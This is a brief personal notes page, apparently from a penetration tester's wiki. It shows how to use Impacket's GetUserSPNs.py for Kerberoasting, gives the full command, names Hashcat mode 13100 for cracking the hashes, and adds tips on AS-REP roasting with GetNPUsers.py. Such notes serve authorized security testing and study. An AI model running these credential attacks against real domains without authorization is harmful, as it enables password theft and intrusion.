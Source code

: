 # Using Impacket

* **author**:: Nathan Acks
* **date**:: 2021-12-06

## Kerberoasting

Impacket can identify kerberoastable accounts and dump packets remotely. It comes standard with Kali Linux.

```bash
python3 \
	/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
	${DOMAIN}/${USER}:${PASSWORD} \
	-dc-ip $DOMAIN_CONTROLLER_IP -request
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)

## AS-REP Roasting

Impacket (via GetNPUsers.py) support AS-REP roasting. However, GetNPUsers.py requires that user accounts already be enumerated and roastable accounts identified.

When using GetNPUsers.py, specify the target as `${DOMAIN}/` (i.e., leave off the user-part).
